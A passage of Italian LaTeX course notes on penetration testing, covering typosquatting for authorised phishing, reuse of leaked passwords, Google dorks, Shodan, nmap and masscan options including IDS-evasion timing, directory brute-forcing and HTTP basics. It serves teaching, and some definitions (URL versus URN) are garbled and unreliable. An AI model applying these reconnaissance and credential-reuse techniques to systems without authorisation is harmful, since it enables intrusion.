Supponiamo che in un'attività con un cliente sono autorizzato a vedere come l'azienda reagisce a tentativi di \textbf{phishing} per ottenere informazioni o ottenere accesso alle workstation dei dipendenti.\\ Allora bisogna fare \textbf{squatting} del dominio target, usando script o tool come \textit{AIL Typo Squatting}, per capire quali domini acquistare (o affittare) per l'attacco.
\newpage
Le conseguenze nell'accesso di questi domini generalmente sono:
\begin{itemize}
    \item Non veniamo reindirizzati da nessuna parte.
    \item Veniamo reindirizzati su siti di phishing, o pagine contenenti malware.
    \item Veniamo reindirizzati sul sito ufficiale della compagnia (hanno registrato il dominio di squatting e lo hanno fatto puntare al loro server).
    \item Veniamo reindirizzati ad una pagina scherzo o senza senso.
    \item Compare un messaggio che ci dice che il dominio è acquistabile.
\end{itemize}

\subsection{Password leaks / Collections}
Gruppi di hacker malevoli spesso rilasciano email e password ottenute sfruttando vulnerabilità su sistemi di svariate aziende.
Un pentester può sfruttare questi password leak per accedere ai sistemi dell'azienda target (se l'attività di pentesting richiede attività di questo tipo). \\
Se la password trovata nei leak è stata cambiata, quella nuova potrebbe essere comunque \textbf{prevedibile}, se simile a quella precedente. Spesso succede in quanto le password scelte devono essere facili da ricordare, quindi quella nuova consiste di poche variazioni della precedente, spesso con criteri ben precisi. 
Succede inoltre che certi utenti tendono a \textbf{riusare} una vecchia password, quindi può essere che l'utente abbia sostituito una password sconosciuta con una leakata.

In Italia è \textbf{legale} possedere password altrui se non ottenute in modo illecito, tuttavia costituisce reato utilizzarle.
Un pentester quindi:
\begin{itemize}
    \item Può far prevedere una clausula nel contratto di pentesting affinché possa autorizzarlo ad usare tali credenziali.
    \item Nel caso di un Bug Bounty Program, è necessario controllare se tale azione è consentita o vietata dal programma.
\end{itemize}

Per mitigare il bruteforcing delle password, è importante usare una \textbf{password robusta}. Una passphrase tipicamente è più lunga di una password (e quindi più robusta), ma se le parole usate sono presenti in una wordlist che l'hacker sta usando, potrebbe essere facile da indovinare.
Tuttavia in un attacco di bruteforcing "classico", le passphrases richiedono troppo tempo per essere crackate.

\subsection{Google Dork}
Usando il motore di ricerca di Google, è possibile ricercare informazioni o vulnerabilità di un bersaglio.\\
Il \textbf{Google Dorking} consiste nell’utilizzare i tag di ricerca per effettuare \textbf{ricerche mirate a stringhe} che sappiamo già indichino una qualche vulnerabilità. Alcuni dei tag più usati sono:
\begin{itemize}
    \item \textbf{site}: Restringe il campo di ricerca ad uno specifico dominio.
    \item \textbf{intitle}: Ricerca pagine con la stringa specificata all’interno del titolo della pagina.
    \item \textbf{inurl}: Ricerca pagine che contengono una determinata stringa all’interno dell’URL.
    \item \textbf{filetype}: Ricerca solo file con determinate estensioni.
\end{itemize}

\subsection{Shodan}
Shodan è un \textbf{motore di ricerca} per i dispositivi collegati ad Internet che permette di vedere i \textbf{servizi esposti} da varie macchine in tutto il mondo.\\
Seppur molte funzioni sono a pagamento, è un ottimo strumento per effettuare OSINT. Esso permette, anche con le richieste giornalieri esaurite, di ottenere dati mediante determinati \textbf{sottodomini}:
\begin{itemize}
    \item Il sottodominio \verb|https://exposure.shodan.io/| fornisce statistiche sui dispositivi violati, nazione per nazione.
    
    \item Il sottodominio \verb|https://exploits.shodan.io/| permette di \textbf{ricercare exploit}, reindirizzando a siti come exploit-db.
    \newpage
    \item Il sottodominio \verb|https://2000.shodan.io/#/| mostra quello che viene esposto da alcuni dispositivi, come:
    \begin{itemize}
        \item Pannelli di controllo violati
        \item Webcam attive (perlopiù esterne, per fortuna)
        \item Schermate di login
        \item Messaggi ransomware
        \item Router violati
        \item Informazioni su db compromesso
        \item Informazioni sul dispositivo
        \item Risposte web
    \end{itemize}
\end{itemize}

\subsection{Censys}
Come Shodan, Censys monitora i server e i dispositivi connessi ad Internet permettendoci di trovarli tramite \verb|https://search.censys.io/|. 
Partendo da un nome di dominio è possibile trovare l'indirizzo IP e la posizione dell'host (sulla mappa), ricercando informazioni direttamente sui certificati SSL, tutto \textbf{gratuitamente}.

\subsubsection{Come sfruttare questi tool?}
Spesso le aziende non sanno tutto quello che espongono online, specialmente con l'uso di piattaforme \textbf{cloud}. Ad esempio, macchine virtuali messe a disposizione da alcuni servizi Cloud espongono \textbf{di default} alcuni servizi spesso non usati da chi ha affittato la macchina virtuale.\\
Tramite un Bug Bounty Program, si potrebbe verificare quali macchine sono 
assegnate al nostro cliente o alla piattaforma scansionando gli IP di un servizio di Cloud Hosting.

\subsubsection{Esercizio di OSINT}
La nostra azienda ha svolto dei colloqui per assumere altri penetration tester e allargare il team. Purtroppo però, qualcuno ha fatto confusione, e poco prima che i backup settimanali venissero eseguiti, ha eliminato per sbaglio tutti i CV, incluso quello del candidato selezionato.\\
Chi si è occupato dei colloqui non ricorda il nome del candidato, e nessuno riesce a trovare il relativo CV tra le email. Accetti di aiutare i tuoi colleghi. Quando chiedi cosa ricordano del candidato, ottieni le seguenti informazioni:
\begin{itemize}
    \item Ha prodotto una PoC per la vulnerabilità più sfruttata in… Malesia? No aspetta, forse era Malibù?
    \item Ha iniziato a lavorare come pentester per diverse aziende, tra il… 2004 e il 2006? Ora è certamente un freelancer, però!
\end{itemize}
Anche se le informazioni ottenute sono poche e confuse, tutti contano su di te per recuperare:
\begin{itemize}
    \item Nome e cognome del candidato
    \item Indirizzo email personale
    \item Profilo Linkedin
    \item Profilo Github
    \item URL del blog
\end{itemize}

\subsection{Active Discovery}
Tramite le informazioni ricavate tramite \textbf{Passive Discovery}, possiamo passare alla ricerca di informazioni tramite \textbf{Active Discovery}, mantenendo un profilo basso e stando attenti a software SIEM (Security Information and Event Management) e alert che possono individuare la nostra presenza nella rete interna del bersaglio.\\
Alcuni tool che permettono di fare active discovery sono:
\newpage
\subsubsection{NMap (Network Mapper)}
NMap è uno dei tool più utilizzati per scannerizzare una rete alla ricerca di host e servizi, Viene usato in pressoché molte fasi del pentesting, specialmente per Information Gathering, Exploitation e Post-Exploitation.

\textbf{Sintassi base}:\\
\verb|#nmap [scantype] [Options] [targets]|

\textbf{Target Specification (Specifiche Bersaglio)}:
\begin{itemize}
    \item Indirizzo IPv4: $192.168.1.1$
    \item Indirizzo IPv6: $AABB:CCDD::FF\%eth0$
    \item Nome dell'Host: \verb|www.target.tgt|
    \item Range indirizzo IP: $192.168.0-255.0-255$
    \item Blocco CIDR: $192.168.0.0/16$
    \item File usato con lista di target: \verb|-il <filename>|
\end{itemize}

\textbf{Target Ports (Porte Bersaglio)}:\\
Se non è specificato nessun range, NMap scansiona le prime 1000 porte più popolari. Altrimenti: 
\begin{itemize}
    \item \verb|-F|: Scansiona le 100 porte più popolari.
    \item \verb|-p<port1>-<port2>|: Range di porte.
    \item \verb|-p<port1>,<port2>,...|: Lista di porte.
    \item \verb|-pU:53,U:110,T20-445|: Mix tra UDP e TCP.
    \item \verb|-r|: Scansione lineare (non randomizza le porte).
    \item \verb|--top-ports<n>|: Scansione delle $n$ porte più popolari.
    \item \verb|-p-65535|: Escludere la prima porta fa partire la scansione di NMap dalla porta 1.
    \item \verb|-p0-|: Escludere la porta finale fa scansionare NMap fino alla porta 65535.
    \item \verb|-p-|: Escludere la porta iniziale e finale fa scansionare NMap fino alla porta 1 - 65535.
\end{itemize}

Non tutti gli indirizzi IP hanno una macchina dietro che risponde, in quanto potrebbe essere down o perché confingurata per non rispondere. Si può fare \textbf{probing} affinché si scansionino solo gli host che rispondono, ma non è consigliato.

\textbf{Probing Options (Opzioni Sonda)}:
\begin{itemize}
    \item \verb|-Pn|: Non fare sonde, assumendo quindi che tutti gli host siano UP.
    \item \verb|-PB|: Sonde di default (TCP 80,445 \& ICMP)
    \item \verb|-PS<portlist>|: Controlla quali bersagli sono UP sondando le porte TCP.
    \item \verb|-PE|: Usa le richieste ICMP Echo.
    \item \verb|-PP|: Usa le richieste ICMP Timestamp.
    \item \verb|-PM|: Usa le richieste ICMP Netmask.
\end{itemize}

\textbf{Scan Types (Tipi di Scan)}
\begin{itemize}
    \item \verb|-sn|: Solo sonda (nessuna scansione delle porte, solo host discovery).
    \item \verb|-sS|: Scansione SYN.
    \item \verb|-sT|: Scansione TCP Connect.
    \item \verb|-sU|: Scansione UDP.
    \item \verb|-sV|: Scansione Versione.
    \item \verb|-O|: Detection del Sistema Operativo.
    \item \verb|--scanflags|: Imposta una lista custom di TCP usando 
    'URGACKPSHRSTSYNFIN' in qualsiasi ordine.
\end{itemize}

\newpage
\textbf{Aggregate Timing Options}:
\begin{itemize}
    \item \verb|T0|: \textbf{Paranoico}: Molto lento, usato per IDS evasion.
    \item \verb|T1|: \textbf{Subdolo}: Abbastanza lento, usato per IDS evasion.
    \item \verb|T2|: \textbf{Gentile}: Gira circa 10 volte più lento della modalità normale, per consumare meno largezza di banda.
    \item \verb|T3|: \textbf{Normale}: Modalità basata su un modello di timing dinamico basato sulla reattività del bersaglio.
    \item \verb|T4|: \textbf{Aggressivo}: Assume una rete veloce e affidabile e potrebbe sovraccaricare i bergagli.
    \item \verb|T5|: \textbf{Folle}: Molto aggressivo, alta probabilità di sovraccaricare i bersagli o mancare porte aperte.
\end{itemize}

\textbf{Output formats (Formati di Output)}:
\begin{itemize}
    \item \verb|-oN|: Output standard di NMap
    \item \verb|-oG|: Formato Greppable
    \item \verb|-oX|: Formato XML
    \item \verb|-oA <basename>|: Genera file output NMap, Greppable e XML usando un nome per i file.
\end{itemize}

\textbf{Misc. options (Opzioni miste)}:
\begin{itemize}
    \item \verb|-n|: Disabilita ricerche su indirizzi IP inversi.
    \item \verb|-6|: Usa solo IPV6
    \item \verb|-A|: Usa diverse funzioni, come rilevamento SO, rilevamento versione, scansione Script e traceroute.
    \item \verb|--reason|: Mostra le ragioni del perché NMap pensa che una porta sia aperta, chiusa o filtrata.
\end{itemize}

\textbf{Diffing con NMap}:\\
Un altro utilizzo comune di NMap, ovvero la scansione regolare di determinati indirizzi IP, per verificare se ci sono stati cambiamenti nelle ultime ore o negli ultimi giorni.\\ È probabile che un'azienda non abbia procedure di Chain management, per cui fare il diffing è fondamentale dal momento in cui, ad esempio durante bug bounty, se l'azienda aggiunge nuovi servizi potrebbero esserci nuove vulnerabilità da sfruttare.

\subsubsection{Masscan}
Molto simile ad NMAP, Masscan è un tool per scannerizzare un grande range di indirizzi IP velocemente, in quanto ha uno stack TCP/IP personalizzato ottimizzato per questo compito. Infatti su Windows e su diverse VM il limite si aggira intorno alle 300 mila richieste al secondo, mentre su ambienti linux anche 1.600.000 richieste al secondo.

\textbf{Sintassi base (esempio di utilizzo)}:\\
\verb|masscan -p80-500 142.250.180.0/24 --rate=10000|

Tuttavia, rispetto ad NMap, abbiamo differenze cruciali:
\begin{itemize}
    \item Masscan è estremamente più veloce di NMap, ma il grosso del carico ricade sulla rete personale, che potrebbe non essere in grado di supportarlo. Le reti target non ne risentiranno in quanto Mssscan randomizza l'IP da scannerizzare per ogni richiesta, quindi il carico è \textbf{distribuito} tra tutti i target (solo se IPv4).
    \item Masscan durante le scansioni IPv6 potrebbe reindirizzare anche milioni di richieste verso una singola sottorete, potenzialmente danneggiando la rete target.
    \item Masscan non scansiona alcuna porta di default, vanno sempre specificate le porte con \verb|-p|.
    \item Masscan non scansiona nomi di dominio e i range \textbf{devono} essere nella forma ip/maschera.
    \item I risultati di Masscan, se usata la propria rete, risultano molto imprecisi, restituendo risultati diversi ad ogni scansione. Migliorano usando una VPS.
\end{itemize}

\newpage 

\subsection{EyeWitness}
EyeWitness è un tool che permette di visualizzare i risultati dei servizi esposti da NMap, tramite un file XML che verrà interrogato dal tool, per capire subito se ci sono pagine di configurazione esposte, sistemi già violati, tipologie di applicazioni, sistemi operativi in uso, versioni dei server web e altro.\\
EyeWitness inoltre non lavora esclusivamente con pagine web, ma anche con screenshot di RDP e server VNC esposti.\\
Con questo tool è possibile automatizzare la ricerca di \textbf{sottodomini} su cui effettuare \textbf{subdomain takeover} per poi fare \textbf{spoofing}. Generalmente molti sottodomini non sono disponibili, in quanto già in uso per altro o perché vecchi e quindi la scelta ricade su host che offrono servizi scaduti o non ne offrono affatto.

\subsection{GoBuster}
GoBuster è un tool open source che può essere usato per effettuare bruteforce su URL, sottodomini, hostname e bucket S3/Google Cloud. Comprende diverse modalità di utilizzo:
\begin{itemize}
    \item \verb|dir|: Ricerca di directory.
    \item \verb|fuzz|: Effettua fuzzing di base.
    \item \verb|dns|: Ricerca di sottodomini.
    \item \verb|vhost|: Ricerca di \textbf{virtual host}.
    \item \verb|s3|: Ricerca di bucket AWS S3.
    \item \verb|gcs|: Ricerca di bucket Google Cloud.
    \item \verb|tftp|: Enumera file all’interno di servizi Trivial File Transfer Protocol.
\end{itemize}

\textbf{Sintassi base}:\\
\verb|gobuster dns -d <domain> -w <wordlist>|

\subsubsection{Differenza tra Virtual Host e Sottodomini}
I Virtual Host sono siti web che girano su molteplici domini sullo stesso server fisico ma come unità indipendenti una dall'altra. Hanno quindi i loro nomi di dominio, indirizzi IP, e contenuto del sito ma condividono lo stesso server e SO.\\
I Sottodomini non hanno la necessità di dover consividere lo stesso server e SO come le VHost in quanto essi sono suddivisioni del dominio principale e sono usati per differenziare i servizi (o il luogo geografico e altro ancora) di un sito usando i DNS per puntare ad indirizzi IP diversi o porte diverse dello stesso indirizzo IP. 

\subsection{Enum4Linux}
Si tratta di uno script in Perl per ottenere informazioni da sistemi Windows e da Samba all’interno della stessa sottorete (internal active discovery). È utile per fare \textbf{Active Directory}, in quanto la quasi totalità delle aziende gestisce le proprie risorse e asset in questo modo.

\textbf{Sintassi base}:\\
\verb|enum4linux [Indirizzo IP]|

Per invocare tutti gli strumenti messi a disposizione da Enum4Linux basterà inserire \verb|-a| prima dell'indirizzo IP. Dato un indirizzo IP, alcune delle informazioni più importanti che lo script può ottenere sono:
\begin{itemize}
    \item Lista degli utenti e dei gruppi utenti.
    \item Nome del workgroup di cui fa parte l'host.
    \item Informazioni sul SO dell'host.
    \item Informazioni sulla password policy implementata dall’host.
    \item Informazioni sulle stampanti.
\end{itemize}
\newpage
\subsection{Physical Discovery}
L’Information Gathering non si ferma necessariamente allo spazio cibernetico, infatti se il contratto lo prevede, si possono cercare vulnerabilità fisiche all'interno dell'azienda del cliente, come:
\begin{itemize}
    \item Accesso agli uffici non controllato.
    \item Sala server lasciata aperta.
    \item Aree classificate e protette da accesso con codice o badge dispongono poi di fragili porte di vetro.
    \item Postazioni lasciate incustodite senza lock screen.
    \item Password lasciate in giro su post-it, comunicate a voce tra i dipendenti, scritte su lavagne e password di default su uno o più sistemi interni.
\end{itemize}

Se previsto da contratto, si potrebbe fare lockpicking per intrufolarsi in zone ad accesso riservato. Tuttavia, bisogna tenere a mente che per la legge italiana, il possesso di grimaldelli non è reato, tuttavia lo è 
il loro trasporto e utilizzo.

\newpage

\section{Vulnerability Assessment}
\subsection{Introduzione e difetti noti}
Dopo aver fatto delle scansioni iniziali e aver mappato la rete, è possibile usare tool di VA, che possono essere ottimi per trovare vulnerabilità in una rete. Non sono perfetti in quanto potrebbero non trovare alcune vulnerabilità o segnalare \textbf{falsi positivi}.

Inoltre l'utilizzo di questi strumenti dev'essere ben cauto, in quanto, generando molto traffico nella rete, presentano due difetti notevoli da considerare:
\begin{itemize}
    \item \textbf{Assenza di stealthiness}: Sono facilmente riconoscibili se vi sono SIEM o altri tool di monitoraggio in azione. 
    \item \textbf{Denial of Service}: Possono causare DoS temporanei, quindi è altamente sconsigliato usare VA su sistemi di produzione. 
\end{itemize}

Alcuni dei tool di VA più usati sono InsightVM, Nessus e \textbf{OpenVAS}. 
Nel corso viene trattato l'uso di quest'ultimo.

\subsection{OpenVAS}
OpenVAS è un tool di VA derivato da Nessus. Il tool è molto intuitivo, con una dashboard totalmente personalizzabile.\\
Tramite il menù \textbf{Scans} $\Rightarrow$ \textbf{Tasks}, è possibile configuare e avviare scansioni di vulnerabilità sui propri target. Creando
una nuova task, possiamo definire quali macchine analizzare specificando il range di IP delle macchine target. Possiamo impostare diversi parametri, quali ad esempio:
\begin{itemize}
    \item Eventuali alert.
    \item Periodicità per la scansione.
    \item Quality of Detection minima per comparire nel report.
    \item Cancellazione automatica dei report.
    \item Tipologia di scansione.
\end{itemize}

Al termine della scansione, viene generato un report, dove è possibile visionare dettagli delle vulnerabilità scoperte, come il loro livello di gravità. In pochi minuti è possibile sapere come prendere controllo della macchina.

\subsection{Vulnerability Scan con NMap}
Il tool NMap, oltre a poter scansionare le reti ed enumerarne i servizi, permette tramite il suo script engine NSE (NMap Script Engine) di fare Vulnerability Scanning.\\
Alcuni script si limitano a verificare se il target possiede una determinata vulnerabilità, mentre altri effettuano anche l’exploit, ad esempio estrapolando password, enumerando utenti, o ottenendo altre informazioni.\\ È possibile visionare i tipi di script che NMap offre al sito \verb|https://nmap.org/book/nse-usage.html|.

\textbf{Sintassi base}: \verb|nmap [Indirizzo IP] --script=Nome_script| 

\subsubsection{E se volessi fare una scansione mirata?}
Se siamo interessati a scoprire solo specifiche vulnerabilità, \textbf{Nmap è una scelta migliore di OpenVAS}, in quanto è più veloce su scansioni mirate, grazie agli script NSE.

\subsubsection{È ancora efficace usare tool di VA?}
Ad oggi molte aziende hanno iniziato ad usare vulnerability scanner per valutare la robustezza delle proprie infrastrutture, quindi la probabilità di trovare vulnerabilità importanti mediante gli scanner, su clienti che impiegano attivamente strumenti del genere, diminuisce drasticamente.

Possono invece nascondersi vulnerabilità più importanti e non documentate nelle applicazioni web del cliente, quindi fare è più efficace fare lì scansioni automatizzate.

\newpage

\subsection{Web Application Testing}
Per cercare automaticamente vulnerabilità nelle applicazioni web si seguono quattro passaggi fondamentali:
\begin{enumerate}
    \item \textbf{Spider / Discovery sui portali web del cliente}: Si manda uno spider sui vari portali disponibili, e nel frattempo si cerca di trovare pagine nascoste attraverso bruteforce/wordlist.
    \item \textbf{Scansione di vulnerabilità con Web Application Scanner}: Si impiegano appositi tool per cercare di scoprire vulnerabilità all’interno delle pagine/applicazioni identificate nel passaggio precedente. Un esempio di questi tool è OWASP Zap. 
    \item \textbf{Iniezione manuale di parametri GET e POST}: Si cerca di omettere parametri, aggiungerne di duplicati, codificare i valori, inserire payload, etc, al fine di trovare e/o sfruttare una vulnerabilità.
    \item \textbf{Analisi dei token di sessione}: Potrebbero essere troppo corti, poco complessi, prevedibili, etc.
\end{enumerate}

\subsubsection{OWASP Zap - Utilizzo}
OWASP Zap è un Web Application Scanner open source rilasciato nel 2010 e derivato da Paros.\\
All'avvio il tool scegliamo la scansione automatizzata ed inseriamo l'URL e la porta su cui risiede il web server. Generalmente si utilizza uno spider tradizionale, ovvero un programma che apre a cascata tutti i link che trova mentre esplora una pagina web.\\
Esso si interrompe dopo aver aperto tutti i link ad una determinata profondità (di default 5) o se interrotto manualmente. 
Infine si clicca su \textbf{Attack} per far partire la scansione.

Zap potrebbe non processare alcuni link trovati in quanto \textbf{Out of Scope}, ovvero non appartenenti al dominio che gli abbiamo passato. Così il pentester è protetto dall'attaccare involontariamente altre macchine.

\subsubsection{OWASP Zap - Limitazione}
È importante far notare che gli spider \textbf{non possono fare bruteforcing}, quindi se vi sono percorsi nascosti non indicizzati gli spider non sono in grado di trovarli.

\subsubsection{GoBuster (Dir Mode) e DirBuster}
Esistono altri tool che tuttavia possono scoprire questi percorsi segreti tramite l'uso di wordlist, come la \textbf{Directory Mode} di GoBuster o \textbf{DirBuster}, quest'ultimo realizzato in Java per effettuate attacchi brute-force su file e directory.

\textbf{Sintassi base di GoBuster (Dir Mode)}:\\
\verb|gobuster dir -u http://ip:port -w ./wordlist.txt|

\subsection{Nota finale su Vulnerability Assessment}
Come già detto prima, un vulnerability scanner potrebbe non trovare alcune vulnerabilità o segnalare falsi positivi. Quindi il pentester dovrebbe \textbf{sempre} ogni vulnerabilità trovata, descrivendo impatto e modalità di exploit, senza limitarsi ai pochi dettagli rilasciati dagli scanner.

\newpage


\section{Fondamenti per l'Exploitation}
Prima di passare all'importante fase di \textbf{Exploitation}, è bene conoscere alcune nozioni di base per una migliore comprensione delle tecniche usate. Questa sezione sarà suddivisa in tre sottosezioni principali:
\begin{itemize}
    \item Una su Reti e Web per la \textbf{Web Exploitation}, sia Client che Server side;
    \item Una sulle Basi di Dati per Web Exploitation dal lato Database;
    \item Una sui file eseguibili e assembly per \textbf{Reverse Engineering} e \textbf{Binary Exploitation}.
\end{itemize}

\subsection{Fondamenti di Reti e Web}
\subsubsection{HTTP}
\textbf{HyperText Transfer Protocol}, o HTTP, è un protocollo con architettura client/server sviluppato alla fine degli anni 80 affinché un client possa effettuare una richiesta ad un server per ottenere una determinata risorsa, come una pagina web o anche una semplice immagine.

Essendo che la connessione tra client e server viene chiusa alla fine della richiesta, rende il protocollo \textbf{efficiente} dal punto di vista delle connessioni aperte simultaneamente, ma lo rende anche \textbf{stateless}, in quanto non fornisce alcuno strumento nativo per salvare lo stato della sessione di un utente, rendendo necessario l’utilizzo di \textbf{sistemi alternativi} per rendere stateful un’applicazione web.

\subsubsection{URI/URL/URN ed URL Encoding}
I tre acronimi stanno per \textbf{Unified Resource Identifier/Locator/Name} e servono ad identificare una risorsa all'interno della rete.\\
Secondo l'RFC (Request for Comments) 3986, la forma completa dell'URI è:
$$
\verb|<scheme>://<username>:<password>@<host>:<port>/<path>?<query>#<fragment>|
$$
tuttavia, nella maggior parte degli URI usati quotidianamente, username e password sono omessi.\\ L'URL, rispetto all'URI, omette \verb|<scheme>://|, ovvero il \textbf{metodo} (spesso HTTP o HTTPS) mentre l'URN, sempre rispetto all'URI, omette \verb|#<fragment>|. Le porte usate di default sono la 80 per HTTP e 443 per HTTPS.

\textbf{URL Encoding}

Visto che l'RFC 3986 usa i caratteri @, \#, ?, / per separare i vari elementi, quindi come tali non possono essere usati all’interno di nomi di file, query, o fragment URI per localizzare risorse.\\ Però possiamo utilizzare la rappresentazione esadecimale del carattere che ci serve, preceduta da un \%, chiamata \textbf{URL Encoding}. Alcuni esempi di URL Enconding dei caratteri più usati:
\begin{itemize}
    \item $? \rightarrow$ \%3f
    \item $@ \rightarrow$ \%40
    \item Spazio $\rightarrow$ \%20
    \item \# $\rightarrow$ \%23
    \item  / $\rightarrow$ \%2f
    \item  \% $\rightarrow$ \%25
    \item \verb|\r\n| (carriage return + line feed) $\rightarrow$ \%0d\%0a
\end{itemize}

URL Encoding può tornare utile nella scrittura di payload, inoltre fare \textbf{double} URL Encoding può fare la differenza nello scoprire una vulnerabilità.

\newpage
\subsubsection{Richieste HTTP}
\begin{minipage}{0.61\textwidth}
\begin{verbatim}
GET /Training/VAPT/curl.php?secretget=abcdef HTTP/1.1
Host: zerosec.netsons.org
Connection: keep-alive
DNT: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) 
AppleWebKit/537.36 (KHTML, like Gecko) 
Chrome/96.0.4664.45 Safari/537.36
Accept: 
text/html,application/xhtml+xml,application/xml;q=0.9,
image/avif,image/webp,image/apng,*/*;q=0.8,application
/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7
Content-Type: application/x-www-form-urlencoded

secretpost=ghijkl
\end{verbatim}
\end{minipage}
\quad
\begin{minipage}{0.35\textwidth}
La prima linea è chiamata \textbf{Request Line} e indica \textbf{metodo}, \textbf{risorsa richiesta} e \textbf{protocollo}, separati da spazi.\\
Subito dopo, separati da un ritorno a capo, abbiamo i vari \textbf{header della richiesta}, che forniscono dettagli sulla stessa. Apparte l'header \textbf{Host}, gli altri sono tutti opzionali.\\
Infine, separato da \textbf{due ritorni a capo}, abbiamo il \textbf{corpo della richiesta} (body), che generalmente contiene i parametri POST.\\ Il formato dei parametri all’interno del body è comunicato all’interno dell’header \textbf{Content-Type}.
\end{minipage}

\subsubsection{Risposte HTTP}
\begin{minipage}{0.50\textwidth}
\begin{verbatim}
HTTP/1.1 200 OK
Connection: Keep-Alive
Keep-Alive: timeout=5, max=100
content-type: text/html; charset=UTF-8
content-length: 615
content-encoding: gzip
vary: Accept-Encoding,User-Agent
date: Wed, 24 Nov 2021 17:35:13 GMT

<head>
<title> GET/POST Tester </title>
<link rel=”stylesheet” ...
\end{verbatim}   
\end{minipage}
\quad
\begin{minipage}{0.45\textwidth}
La prima riga è la cosiddetta \textbf{status line}, che conferma protocollo utilizzato, \textbf{status code} e la \textbf{reason phrase} (es. "OK", "Forbidden", "Not Found").\\
Separati da \textbf{un ritorno a capo}, troviamo gli \textbf{header della risposta}, che forniscono dettagli sulla stessa.\\
Infine, separato da \textbf{due ritorni a capo}, c’è il \textbf{corpo del messaggio} (body), ovvero la risorsa che è stata richiesta dal nostro browser.
\end{minipage}

\subsubsection{Metodi HTTP}
Ritornando sulla \textbf{Request Line} di ogni richiesta HTTP, ha la seguente forma:
$$
\verb|<metodo> <path_risorsa> <protocollo>/<versione>|
$$
I metodi più comuni ed usati in una richiesta HTTP sono:
\begin{itemize}
    \item \textbf{GET}: Il metodo GET chiede al server di reperire la risorsa al path specificato. Eventuali parametri possono essere forniti subito dopo il path, usando il carattere "?" per dividerli.\\
    Esso è considerato un "metodo safe", in quanto di \textbf{sola lettura}, ovvero che non modifica il server.\\
    Tuttavia il metodo GET presenta due \textbf{rischi noti}:
    \begin{itemize}
        \item I parametri passati tramite GET sono \textbf{visibili all’interno dell’URL} della pagina, per cui sono vulnerabili a \textbf{snooping} da parte di utenti all’interno della stessa stanza della vittima. Esempio:
        \verb|mio.sito/login.php?username=mario&password=Secr3t!|

        \item I parametri restano salvati all’interno della cronologia del browser, e quindi visibili in un secondo momento ad altri utenti che utilizzano lo stesso computer.

        \item Quando su sitoA clicchiamo su un link che ci porta su sitoB, quest’ultimo sito può verificare da quale sito proveniamo, grazie all’\textbf{header HTTP Referer}. Infatti, dentro tale header è salvato l’indirizzo che ci condotti sulla pagina attuale. Quindi, se dalla pagina\\ \verb|mio.sito/login.php?username=mario&password=Secr3t!| vengo reindirizzato su\\\verb|altro.sito|, quest’ultimo sarà in grado di vedere l’indirizzo completo dal quale provengo, compresi i miei dati di login.
    \end{itemize}

    \item \textbf{HEAD}: Funziona come GET, tuttavia il server ometterà il corpo del messaggio nella risposta, che quindi sarà composta solo da \textbf{Status Line} e dai \textbf{Response Header}. Una tipica richiesta HEAD ha lo scopo di verificare velocemente se ci siano stati cambiamenti nella pagina richiesta.\\
    Inoltre, come GET, anch'esso è un "metodo safe".

    \newpage

    \item \textbf{POST}: Il metodo POST chiede al server di eseguire un'azione, identificata dal path ed eventuali parametri vengono passati all’interno del corpo della richiesta. Una tipica richiesta POST prevede l’invio di un messaggio, o la creazione di un account.\\
    \textbf{Tutti i dati da mantenere segreti (ad esempio password o token) vanno passati al server tramite POST e non GET.}

    \item \textbf{PUT}: Il metodo PUT chiede al server di creare una determinata risorsa al path specificato, con il contenuto della request body.

    \item \textbf{DELETE}: Il metodo DELETE chiede al server di cancellare una determinata risorsa, identificata dal path specificato.
    
    \item \textbf{PATCH}: Il metodo PATCH chiede al server di modificare la risorsa al path specificato, e i dettagli delle modifiche sono indicati nella request body.
\end{itemize}

\subsubsection{Salvare lo stato di sessione di un utente: Cookies e ID di sessione}
Come già detto in precedenza, HTTP è \textbf{stateless}, quindi per rendere le applicazioni web \textbf{stateful}, si utilizza un ID di sessione.\\
Per memorizzare questo ID, si utilizza un piccolo \textbf{file di testo}, chiamato \textbf{cookie}, che il browser riceve dal server, salva in memoria secondaria e riinvia al server ogni qualvolta deve comunicarci. Così il server riconosce l'utente ed è in grado di determinare i dettagli della sua sessione.\\
I cookie inoltre vengono usati per \textbf{personalizzare l'esperienza di navigazione} su determinati siti web e per il tracciamento dei dati.

Il web server richiede al browser il cookie inviando l'header \textbf{Set-Cookie}, separando i vari attributi tramite punto e virgola:
$$
\verb|Set-Cookie: <cookie-name>=<cookie-value>; Domain=<domain-value>; Secure=...| 
$$
Il browser non invierà mai il cookie di un \verb|sitoA.com| ad un \verb|sitoB.com|, ma potrebbe inviarlo ad un\\ \verb|sottodominio.sitoA.com|.

\textbf{Proprietà di un ID di Sessione (o Token)}

Secondo OWASP, i token di sessione devono godere di alcune proprietà:
\begin{itemize}
    \item \textbf{Resistenza a fingerprinting}: Dato che i cookie hanno la forma \verb|<nome>=<valore>|, lo sviluppatore dell’applicazione web può scegliere il nome del cookie che contiene il token di sessione, quindi i nomi scelti non dovrebbero rivelare lo scopo del cookie.

    \item \textbf{Lunghezza appropriata}: Il token di sessione deve essere abbastanza lungo da \textbf{prevenire attacchi bruteforce}, per cui è necessario che consti di almeno 16 byte.

    \item \textbf{Entropia appropriata}: Il token di sessione non deve essere prevedibile, quindi deve essere il più casuale possibile, usando un CSPRNG (Cryptographically Secure PseudoRandom Number Generator) e dev'essere almeno la metà della lunghezza del token.

    \item \textbf{Unicità}: Non devono poter esistere due token identici, assegnati a diversi utenti/diverse sessioni, in un determinato istante.

    \item \textbf{Nessun significato}:  Il token non deve dipendere dall’ID dell’utente, dal suo username, o in generale da nessun dato personale o variabile interna all’applicazione.
\end{itemize}

\subsubsection{Same Origin Policy e Cross Origin Resource Sharing}
La \textbf{Same Origin Policy}, implementata da tutti i browser moderni, consiste nel permettere solo ad eventuali script del sito \verb|sitoA.com| di accedere solamente a dati della \textbf{stessa origine} e non ad informazioni presenti in un \verb|sitoB.com|.\\
Dato l'URI di un sito, la SOP previene lo scambio di dati se vi è un diverso \textbf{protocollo}, \textbf{porta}  o \textbf{host}.

Tuttavia, impostando opportunamente le opzioni CORS su \verb|sitoB.com|, è possibile \textit{rilassare} la sua SOP per permettere ad altri siti, come \verb|sitoA.com|, di accedere a contenuti di \verb|sitoB.com|.
\newpage
Quando il browser si trova su \verb|sitoA.com| e deve effettuare un’operazione su \verb|sitoB.com|, invia una \textbf{CORS pre-flight request} per capire se tale azione è permessa:

\begin{verbatim}
